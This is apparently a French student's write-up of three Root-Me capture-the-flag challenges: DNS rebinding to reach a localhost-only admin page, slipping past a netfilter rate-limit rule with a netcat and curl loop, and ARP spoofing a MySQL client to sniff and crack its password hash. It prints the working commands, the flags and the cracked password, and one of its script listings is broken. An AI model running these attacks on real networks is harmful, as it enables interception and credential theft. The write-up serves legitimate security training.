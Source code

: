 # TP6 : Un peu de root-me

- [I. DNS Rebinding](#i-dns-rebinding)
- [II. Netfilter erreurs courantes](#ii-netfilter-erreurs-courantes)
- [III. ARP Spoofing Ecoute active](#iii-arp-spoofing-ecoute-active)



## I. DNS Rebinding

🌞 **Write-up de l'épreuve**

[Code source web](code-source.html)


En executant ce script, nous arrivons sur une page web avec, une page Admin bloquer, et l'utilisation basique qui est de recherche des sites via des URL.

Dans le code source ci-dessous : 

Nous comprenons que pour se connecter à la page admin, nous devons avoir une IP bien spécifique : `127.0.0.1`

En se renseignant sur le WEB, l'attaque DNS rebinding vise à spammer des requêtes DNS avec un TTL très bas permettant de tromper le site avec une IP différente.

Mettons cela en place, on trouve un tool sur internet : [DNS rebinding](https://lock.cmpxchg8b.com/rebinder.html)

Nous cherchons donc à crée un url utilisable, mais qui à l'IP pour se log en Admin, nous obtenons cela : ```7f000001.c0a80001.rbndr.us```

Ainsi il ne nous reste plus qu'à le rentrer dans la barre de recherhce incluse dans le site avec le bon lien vers la page admin : ```7f000001.c0a80001.rbndr.us:54022/admin```

Puis il faut spammmmmmm 

Et nous obtenons le flag !!!


## II. Netfilter erreurs courantes

🌞 **Write-up de l'épreuve**

[Code du Firewall](CodeFirewall.sh)


Même but pour cette épreuve, nous devons accéder à une page bloquer par le firewall. Lien de cette page avec le port 54017.

Lors de l'analyse de code nous pouvons s'apercevoir que plusieurs règle de connexion à la page bloqué sont en ACCEPT et d'autre en DROP.

Ici notre but va donc être de réaliser une tâche en ACCEPT pour pouvoir se connecter à la page bloquer.

Plusieur façon sont possible, comme usurper la whitlist ou autre mais nous nous allons nous intérreser à cette ligne précisement : ```IP46T -A INPUT-HTTP -m limit --limit 3/sec --limit-burst 20 -j DROP ```

Ici on voit que si on envoie plus de 20 paquet et bien on est autoriser à se log à la page.

Créons donc un script pour essayer si cela fonctionne : 

```
For i in {1..20}; do netcat challenge01.root-me.org 54017 & do | http://challenge01.root-me.org:54017/reseau/ch17
```  
Rien de bien compliqué donc, un script qui crée une boucle pour aller jusqu'à 20 et qui éxécute en fond un netcat sur le port 54017, puis un curl de l'URL voulu.

### Réponse 

```
matis@thinkpad:~$ for i in {1..20}; do netcat challenge01.root-me.org 54017 & done | curl http://challenge01.root-me.org:54017/reseau/ch17

Nicely done:)

There are probably a few things the administrator was missing when writing this ruleset:

    1) When a rule does not match, the next one is tested against

    2) When jumped in a user defined chain, if there is no match, then the
       search resumes at the next rule in the previous (calling) chain

    3) The 'limit' match is used to limit the rate at which a given rule can
       match: above this limit, 1) applies

    4) When a rule with a 'terminating' target (e.g.: ACCEPT, DROP...) matches
       a packet, then the search stops: the packet won't be tested against any
       other rules
    

The flag is: saperlipopete
```

## III. ARP Spoofing Ecoute active

🌞 **Write-up de l'épreuve**

Pour ce challenge, le but va ếtre de réaliser un Man in the Middle entre une DB et un client afin de récuperer le mot de passe et de se connecte a la DB.

Pour commencer on nous allons si'dentifier : 

```
root@fac50de5d760:~# apt install iproute2
root@fac50de5d760:~#ip a

root@fac50de5d760:~# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
5: eth0@if6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:12:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.18.0.2/16 brd 172.18.255.255 scope global eth0
       valid_lft forever preferred_lft forever
root@fac50de5d760:~#
```

Nous sommes identifié en 127.18.0.2/16

Faisons un petit scan de port : 

```
root@fac50de5d760:~#apt install nmap
```
[Scan nmap](scan-nmap.sh)

Ici plusieurs chose apparaisse, le client en (172.18.0.3) et la DB en (172.18.0.4).
Au passage la DB a le port 3306 ouvert.

Lancer notre spoofing avec arp-spoof : 

```
root@fac50de5d760:~#apt install dnsiff

root@fac50de5d760:~# arpspoof -t 172.18.0.3 -r 172.18.0.4
```

Ici la commande viens empoisonner la table arp du client en faisant croire que nous sommes la DB. 
Maintenant il est donc possible de recevoir les échanges entre le client et la db.

Pour capturer cela, on va faire un tcp dump sur le port 3306 de la db ouvert souvenez-vous.

```
root@fac50de5d760:~# apt install tcpdump
```

[Lien du dump](tcpdump.MD)

Par faciliter pour le lecteur j'ai mis que la ligne qui contient le flag.

OK, premiere partie de faite et il nous reste la plus facile et plus dure en même temps :)

Nous pouvons maintenant brut force le mot de passe, cela serait très rapide et efficace mais nous nous voulons aller plus loin...

Je mets quand même cette partie : 

On installe hydra, petite commande et hop !

[Brut force](Brut-force.sh)

### Deuxieme façon de trouver le mot de passe 

Dans le dump tcp reçu entre le client et la DB, nous voyons appairaitre le "salt" du mot de passe ainsi que son sha1, c'est une partie très interréssante car en faisant des recherches nous réussissons à trouver la concaténations logique du sha1 sur "mysql_native_password"

Ca donne ça :  ```x := SHA1(password) XOR SHA1(s + SHA1(SHA1(password)))```

Et en comprenant cela nous pouvons ainsi le brut force avec cette commande : 

```
matis@thinkpad:~$ odd-crack 'hex(sha1_raw($p)+sha1_raw($s.sha1_raw(sha1_raw($p))))' --salt hex:09791b4f3f1611084f1f581f3935400635333474 Bureau/root-me/rockyou.txt 6d33d57851fc677eaf4e4ffc7401b074300d472b
[*] loading file...
[*] found heyheyhey=6d33d57851fc677eaf4e4ffc7401b074300d472b
[*] all hashes found, shutdown requested
[*] done, tried 4700 passwords
```

Ici plusieurs choses sont importantes à comprendre, tout d'abord pour obtenir le salt du mot de passe, nous devions exporter le tcpdump en local avec la commande : 

```
matis@thinkpad:~$ sudo scp -P 22222 root@ctf20.root.me.org:/root/toto.pcap
```

Et dans la commande pour brut force le mot de passe on se rend compte que le salt est en héxadécimale, donc sur le dump nous devions récuperer l'héxa du salt qui doit faire exactement 20 octets (NE PAS SE TROMPER...)

Voilà voilà, le mot de passe est donc heyheyhey.